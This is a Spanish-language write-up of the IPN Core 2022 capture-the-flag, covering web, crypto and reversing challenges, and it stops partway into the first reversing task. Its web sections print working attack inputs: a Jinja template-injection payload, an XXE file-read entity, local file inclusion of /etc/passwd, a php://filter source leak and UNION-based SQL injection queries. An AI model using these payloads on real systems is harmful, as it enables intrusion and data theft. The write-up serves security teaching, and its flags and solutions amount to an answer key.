# IPN Core 2022 CTF <!-- omit from toc -->

## Índice<!-- omit from toc -->

- [Resumen de vulnerabilidades](#resumen-de-vulnerabilidades)
- [Web](#web)
  - [Pentest web Parte 1](#pentest-web-parte-1)
  - [Pentest web Parte 2](#pentest-web-parte-2)
  - [Pentest web Parte 3](#pentest-web-parte-3)
  - [CIC Blog](#cic-blog)
  - [Tacos Don Chano](#tacos-don-chano)
- [Crypto](#crypto)
  - [Encoding](#encoding)
  - [Esoteric0](#esoteric0)
  - [AESy](#aesy)
  - [RealBabyRSA](#realbabyrsa)
  - [Baby-FA](#baby-fa)
- [Reversing](#reversing)
  - [T3SLA](#t3sla)
  - [T3SLA - Parte 2](#t3sla---parte-2)
  - [T3SLA - Parte 3](#t3sla---parte-3)
- [Pwning](#pwning)
  - [BabyPWN](#babypwn)
  - [BabyPWN - Parte 2](#babypwn---parte-2)
  - [BabyPWN - Parte 3](#babypwn---parte-3)
- [Misc](#misc)
  - [Bot Calculadora](#bot-calculadora)

## Resumen de vulnerabilidades

- SSRF
- SSTI
- XXE
- LFI + php filters
- SQLi
- AES CBC Bit Flipping
- RSA Common Modulus

## Web

### Pentest web Parte 1

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Uhmm no necesitas contexto... |
| Archivos | [web_pentest_web_1.zip](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/web_pentest_web_1.zip) |

**Solución**

Al interactuar con la página web, se puede visualizar en el código fuente un comentario que indica el lugar donde se encuentra ubicada la bandera.


Tomando en cuenta esto, se pudiera sospechar de algún tipo de inclusión de archivos locales o algo por el estilo. Continuando con la interacción del sitio se puede visualizar una excepción del método `fopen` de php el cuál esta recibiendo el contenido del input disponible.



Si se busca en el [manual de php acerca de la función](https://open.spotify.com/playlist/0VHNhrWyp0X3CdCdhyRQyI?si=73871d004a434312), se puede visualizar que esta recibirá como parámetro una ruta de un directorio, por lo que si se emplea un archivo existente como `/flag.txt` se podrá visualizar su contenido, realizando la petición con `curl` o a través de algún proxy como `BurpSuite`.



Flag: `CTF{9700cbd3cd4dc8c2010953ca1a029bd0}`

### Pentest web Parte 2

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Uhmm nop, no necesitas descripción... ¿o sí? |
| Archivos | [web_pentest_web_2.zip](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/web_pentest_web_2.zip) |

**Solución**

Se puede visualizar un input el cuál al enviar/completar la petición se refleja nuestro contenido.



Al tratar de reconocer las tecnologías que "hostean" el reto, se pudieron identificar por las cabeceras de las respuestas del servidor la versión de una librería y versión de Python (`Werkzeug/2.2.2 Python/3.8.14`).



Al identificar esto, lo primero que pudiera llegarse a considerar es que el código HTML este siendo pre-procesado por esta librería de Python. En el proceso de ese pre-procesamiento se pueden encontrar vulnerabilidades de inyección de plantillas (SSTI), por lo que al hacer uso de `{{7*7}}` en el campo de nombre se pudo validar que se trataba de esto en cuestión.


Utilizando el siguiente payload se podía leer la bandera:

```python
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/flag.txt").read() }}
```



Flag: `CTF{d4bac92d0e15c50d3431043e27c62163}`

### Pentest web Parte 3

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Es divertido el pentest web desde Blackbox ¿no? :) |
| Archivos | [web_pentest_web_3.zip](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/web_pentest_web_3.zip) |

**Solución**

Al entrar en la web se visualizan dos enlaces en los cuales, en uno de ellos nos revela la ubicación de la flag (`/flag`) y en el otro nos permite interactuar con un submit brindándonos una caja de texto en la que podamos mandar un saludo (`/rest`). Al mandar una prueba se puede visualizar una excepción relacionada con XML.



A lo que lleva a concluir de una vulnerabilidad de tipo XXE, al buscar y encontrar el siguiente payload:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/flag.txt"> ]>
<data>&example;</data>
```

Se pudo obtener la bandera incluyendo el archivo y desplegando el archivo indicado.


Flag: `CTF{e4b50e71a8f7ec1f5c3b8db6a91ce2ff}`

### CIC Blog

**Info**

| Atributo | Valor |
|---|---|
| Descripción | ¿Qué tal? Estoy por terminar mi blog y un colega de {\|4_p4nd1\|\|4_m4nt3q1\|\|4}  me hizo favor de revisar el sitio, había encontrado algo pero aún no termina.  Mientras tanto me gustaría saber que encontró, ¿me ayudas también a revisarlo? |
| Archivos | [web_cic_blog.zip](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/web_cic_blog.zip) |

**Solución**

Al buscar información dentro del código fuente se puede visualizar un wrapper de contenido dentro de la barra lateral izquierda, indicando mediante el parámetro `page` la página a cargar.


Al realizar una prueba para buscar incluir un archivo de sistema se puede visualizar su contenido `/wrapper.php?page=/etc/passwd`:



Posteriormente, al no encontrar la bandera dentro de la raíz del sistema (`/flag.txt` o algo similar), se buscó fuzzear el sitio para ver si se encontraba información al respecto.

```bash
ffuf -c -ic -u "http://192.168.111.153:8000/FUZZ" -w /usr/share/wordlists/dirb/common.txt
```



Encontrando así varias entradas incluyendo `robots.txt`, la cual exponía mediante una regla de `Disallow` la ruta de la bandera.


Al incluir la ruta de la bandera se podía procesar su contenido `/wrapper.php?page=/var/www/flag.php` mencionando como pista "pensar en algo diferente".



Dado que los archivos php son procesados del lado del servidor y no se puede visualizar su contenido, fue necesario usar un [filtro de php](https://www.php.net/manual/en/filters.convert.php) para poder extraer su contenido real, mediante la petición:

```txt
/wrapper.php?page=php://filter/convert.base64-encode/resource=/var/www/flag.php
```

Extrayendo así el contenido del archivo encodeado en base64, para después desencodearlo y así encontrar el valor de la bandera.


```bash
echo "PHN0eWxlPgogICAgLnBlcnJpbiB7CiAgICAgICAgdGV4dC1zaGFkb3c6IDJweCAycHggcmVkOwogICAgfQo8L3N0eWxlPgo8ZGl2IGNsYXNzPSJtYWluLXdyYXBwZXIiPgo8aDEgY2xhc3M9InBlcnJpbiI+QWggcGVycmluIGxlIHNhYmVzIGFsIExGSTwvaDE+CjxoMiBjbGFzcz0icGVycmluIj5ObyBjcmVhcyBxdWUgdmEgYSBzZXIgdGFuIGbDoWNpbCBvYnRlbmVyIHR1IGZsYWc8L2gyPgo8P3BocAogICRmbGFnID0gIkxQTXs0aF9wM3JyMW5fbGYxXzRfN2gzX3cxbn0iOwoJZWNobygiwr9ZYSBwZW5zYXN0ZSBlbiBhbGdvIGRpZmVyZW50ZT8iKTsKPz4KPC9kaXY+" | base64 -d
```



Flag: `LPM{4h_p3rr1n_lf1_4_7h3_w1n}`

### Tacos Don Chano

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Me hice la promesa de ya entrar a mis clases de desarrollo web y le hice a mi tío Chano un sitio para que que pueda gestionar sus órdenes de tacos, pero de un momento a otro se ha estado comportando medio raro... y estoy teniendo errores inesperados, ¿qué crees que pueda estar mal? |
| Archivos | [web_tacos_don_chano.zip](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/web_tacos_don_chano.zip) |

**Solución**

Se permite interactuar con el sitio mediante un input que en resumen manda una petición a `/orden.php?id=1` indicando el supuesto id de la orden de tacos, modificando el id se pueden visualizar todas las órdenes disponibles en la plataforma la cuál se puede sospechar que está interactuando con una base de datos.

Enviando algún caracter diferente a un número (`/orden.php?id='`) se puede visualizar una excepción de SQL de la cuál se expone la versión/tipo de base de datos (SQLite3), dando paso a sospechar que se trata de una inyección SQL.



Por lo que se podría automatizar el proceso con `sqlmap` o hacer a mano mediante:

1. Identificación de número de columnas.

```text
/orden.php?id=1 UNION SELECT 1,2,3-- -
```


2. Identificación de columnas que permitan caracteres.

```text
/orden.php?id=1 UNION SELECT 'a','a','a'-- -
```



3. Identificación de tablas.

```text
/orden.php?id=1 UNION SELECT (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),'a','a'-- -

Y:

/orden.php?id=1 UNION SELECT (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 2 offset 1),'a','a'-- -

Para identificar otras tablas.
```



4. Identificación de nombre de columnas en tabla identificada (opcional).

```text
/orden.php?id=1 UNION SELECT (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='flag'),'a','a'-- -
```



5. Extracción de valores.

```text
/orden.php?id=1 UNION SELECT (SELECT * FROM flag),'a','a'-- -
```


Flag: `LPM{54l3n_2_d3_5u4p3rr0_p4r4_3l_j0v3n}`

## Crypto

### Encoding

**Info**

| Atributo | Valor |
|---|---|
| Descripción | ¿Qué tanto sabes de encoding? |
| Archivos | [crypto_encoding.txt](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/crypto_encoding.txt) |

**Solución**

Después de pasar el texto obtenido a [Cyberchef](https://gchq.github.io/CyberChef/) se obtuvo el resultado de la [receta](https://gchq.github.io/CyberChef/#recipe=From_Base85('!-u',true\)From_Base32('A-Z2-7%3D',false\)From_Base64('A-Za-z0-9%2B/%3D',true,false\)From_Hex('None'\)&input=OG00Vl8xLzFEOjhRJi9OPSZgJ3I4ayhbLDEsYCZkOi9YVlE8RSlYSThsZTtLO2JdVlQ6LmVQZDc5PERmOUxXLGIxZmNBODduUTxROFFKTT84bTRuaDtiXjFjOi5lI1U1dV5mPThsXSJfMkhFMUs6ZUY4SDc5KXI7), mediante un múltiple encoding de bases: Base85 -> Base32 -> Base64 -> A hexadecimal para por último obtener el valor de la bandera.


Flag: `LPM{3nc0ding_iS_b4sIc}`

### Esoteric0

**Info**

| Atributo | Valor |
|---|---|
| Descripción | ¡¡Esto es del diablo!! ¿puedes recuperar la flag? |
| Archivos | [crypto_esoteric.txt](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/crypto_esoteric.txt) |

**Solución**

Después de repasar el nombre y la descripción se pudo identificar que se trataba de un [lenguaje de programación esotérico](https://en.wikipedia.org/wiki/Esoteric_programming_language) y partiendo directamente de la descripción va acorde a la descripción que se puede leer en el lenguaje **Malbolge**. Por lo que al usar un [intérprete de este lenguaje](https://malbolge.doleczek.pl/) se puede obtener el valor de la bandera pegando el contenido proporcionado y ejecutando el programa.


Flag: `LPM{3Xel3ntE_C0noC3s_LaS_4rTes_0scUr4s}`

### AESy

**Info**

| Atributo | Valor |
|---|---|
| Descripción | ¿Podrás romper la cookie y obtener acceso como admin? |
| Archivos | [crypto_aesy_chall.py](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/crypto_aesy_chall.py) |

**Solución**

Realizando un análisis al código fuente se identificó que al realizar el proceso de login se genera una cookie de sesión compuesta por 64 caracteres (en hexadecimal), de los cuales la mitad corresponde al `iv` que es utilizado en el proceso de cifrado y descifrado de la aplicación. Y la otra mitad a lo cifrado del usuario según las siguientes líneas de código:



1. Método de cifrado invocado.
2. Retorno de valor `iv` + texto cifrado.

Al buscar vulnerabilidades con el método empleado de AES CBC se encontró el [blog](https://derekwill.com/2021/01/01/aes-cbc-mode-chosen-plaintext-attack/) y el [video](https://www.youtube.com/watch?v=QG-z0r9afIs) en donde se explica la razón de la vulnerabilidad que parte de conocer los bytes correspondientes del `iv` y los bytes de lo cifrado.

Dado que el proceso de AES CBC hace uso de XOR y se nos proporciona el resultado, en resumen bastaría en calcular el byte correspondiente de sólo una de las letras dado que espera obtener `admin`. Extrayendo la cookie de sesión generada con `bdmin` por medio de `/login?username=bdmin` se obtiene `53456027e7f7e1022fa753f620aeac956f8b13fcc80f33b5a5b6feb140b2878f`.


```text
Cookie obtenida: 53456027e7f7e1022fa753f620aeac956f8b13fcc80f33b5a5b6feb140b2878f

IV (cookie): 53456027e7f7e1022fa753f620aeac95

Cifrado (cookie): 6f8b13fcc80f33b5a5b6feb140b2878f
```

Tomando en cuenta el proceso que sigue AES CBC lo que se necesitaría sería encontrar el valor del `iv` correspondiente para cambiar la `b` por `a` de `dmin` para ello se debería seguir:

```text
Primer byte correspondiente de IV: 53
Primer byte correspondiente de lo cifrado: 6f
Valor de b en hexadecimal: 62

53 ^ (6f)? = 62

Para encontrar el valor correspondiente de lo cifrado se realiza el siguiente XOR:

53 ^ 62 = 31

Por lo tanto se puede decir que:

53 ^ 31 = 62

Conociendo este valor se puede buscar el varlo de IV que produciría a (61 en hexadecimal):

? ^ 31 = 61

De acuerdo a las propiedades el XOR se podría realizar la siguiente operación para encontrar el segmento faltante:

31 ^ 61 = ? (50)

Por lo tanto se puede decir que:

50 ^ 31 = 61
```

Tomando en cuenta lo anterior se podría sustituir el primer byte del `iv` de la cookie por 50 para obtener así la bandera.



Flag: `LPM{c0nOc3sl4||4v3_c13rt0?}`

### RealBabyRSA

**Info**

| Atributo | Valor |
|---|---|
| Descripción | RSA... ¡que común! |
| Archivos | [crypto_real_baby_rsa_output.txt](https://github.com/srrequiem/CTF-Challenge-Compilation/blob/main/20220922_ipn_core_2022/files/crypto_real_baby_rsa_output.txt) [crypto_real_baby_rsa_reto.py](https://github.com/srrequiem/CTF-Challenge-Compilation/blob/main/20220922_ipn_core_2022/files/crypto_real_baby_rsa_reto.py) |

**Solución**

Después de visualizar el código fuente y buscar un [resumen de los ataques a RSA](https://www.rose-hulman.edu/class/ma/holden/Archived_Courses/Math479-0304/resources/attacks-rsa/) se puede percatar que ambos valores de la salida:

```python
ct1=pow(FLAG,e1,n)
ct2=pow(FLAG,e2,n)
```

Estan usando el mismo módulo para las operaciones, por lo que al buscar dentro del resumen antes indicado se encontró [este artículo](https://infosecwriteups.com/rsa-attacks-common-modulus-7bdb34f331a5) en donde se detalla un escenario similar y explica en dónde radica la vulnerabilidad, además de brindar el código fuente de la solución. Por lo que al hacer uso del script se obtiene la bandera.


Flag: `LPM{P3rf3ctO!_c0N0c3s_Rs4_y_Sus_vuln3r4b1l1d4d3zzzz}`

### Baby-FA

**Info**

| Atributo | Valor |
|---|---|
| Descripción | ¿Seguirás el camino fácil?<br>La flag es en minúsculas |
| Archivos | [crypto_baby_fa.txt](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/crypto_baby_fa.txt) |

**Solución**

Al identificar el formato de la bandera al final del texto por deducción:

```text
pkca: ksn{efliaetkag_hctekejcjag_ja_cfckegeg}
flag: lpm{efliaetkag_hctekejcjag_ja_cfckegeg}
```

Se concluyó que era algún tipo de sustitución por lo que se utilizó esta [receta de cyberchef](https://gchq.github.io/CyberChef/#recipe=Substitute('abcdefghijklmnopqrstuvwxyz','ebadinshrdlcmmofqrpbuvwxyz'\)&input=a2NiYmVsYS10Y2dhaiBsaXJzYmRhaWNzaHIgZWcgYmhhIGFhZmFpZWwgYmFpbiBwZGkgbGRmZ2JpbWxiZWRmZyBkcCBsaXJzYmRhaWNzaGVsIHNpZW5lYmV1YWcgYmhjYiBlZnVka3VhIGtjYmJlbGFnLCBhZWJoYWkgZWYgYmhhIGxkZmdiaW1sYmVkZiBlYmdha3AgZGkgZWYgYmhhIGdhbG1pZWJyIHNpZGRwLiBrY2JiZWxhLXRjZ2FqIGxkZmdiaW1sYmVkZmcgY2lhIGxtaWlhZmJrciBlbnNkaWJjZmIgbGNmamVqY2JhZyBwZGkgc2RnYi15bWNmYm1uIGxpcnNiZGFpY3Noci4gbWZrZXZhIG5kaWEgb2VqYWtyIG1nYWogY2ZqIHZmZG9mIHNtdGtlbC12YXIgZ2xoYW5hZyBnbWxoIGNnIGJoYSBpZ2MsIGplcHBlYS1oYWtrbmNmIGRpIGFra2VzYmVsLWxtaXVhIGxpcnNiZGdyZ2JhbmfigJRvaGVsaCBsZG1raiwgYmhhZGlhYmVsY2trciwgdGEgamFwYWNiYWogbWdlZmEgZ2hkaSdnIGNrYWRpZWJobiBkZiBjIHltY2ZibW4gbGRuc21iYWnigJRnZG5hIGtjYmJlbGEtdGNnYWogbGRmZ2JpbWxiZWRmZyBjc3NhY2kgYmQgdGEgaWFnZWdiY2ZiIGJkIGNiYmNsdiB0ciB0ZGJoIGxrY2dnZWxjayBjZmogeW1jZmJtbiBsZG5zbWJhaWcuIHBtaWJoYWluZGlhLCBuY2ZyIGtjYmJlbGEtdGNnYWogbGRmZ2JpbWxiZWRmZyBjaWEgbGRmZ2VqYWlhaiBiZCB0YSBnYWxtaWEgbWZqYWkgYmhhIGNnZ21uc2JlZGYgYmhjYiBsYWliY2VmIG9ha2stZ2JtamVhaiBsZG5zbWJjYmVkZmNrIGtjYmJlbGEgc2lkdGthbmcgbGNmZmRiIHRhIGdka3VhaiBhcHBlbGVhZmJrci4KcGtjYToga3Nue2VmbGlhZXRrYWdfaGN0ZWtlamNqYWdfamFfY2Zja2VnZWd9), adicional buscando un tipo de fuerza bruta respecto a la sustitución se encontró esta [calculadora en línea](https://planetcalc.com/8047/) en donde al copiar el texto dado se obtuvo el valor de la bandera.


Flag: `lpm{increibles_habilidades_de_analisis}`

## Reversing

### T3SLA

**Info**

| Atributo | Valor |
|---|---|
| Descripción | Cadena fue de visita a la ESCOM en su nuevo Tsl4. Pero olvidó sus llaves en el laboratorio de redes y estará cerrado hasta mañana por el paro :( . Por suerte tu eres su amigo y le ayudarás a abrir el auto. Lo primero será revisar el firmware buscando la función encargada de validar la llave. |
| Archivos | [reversing_t3sla_chall](https://github.com/srrequiem/CTF-Challenge-Compilation/tree/main/20220922_ipn_core_2022/files/reversing_t3sla_chall) |

**Solución**

Al pasar el binario por ghidra y ver la función indicada (`chequeo`) se pueden visualizar múltiples variables con valores hexadecimales, al convertir los valores se puede extraer la bandera, considerando que la distribución de los valores se encuentra en little-endian:

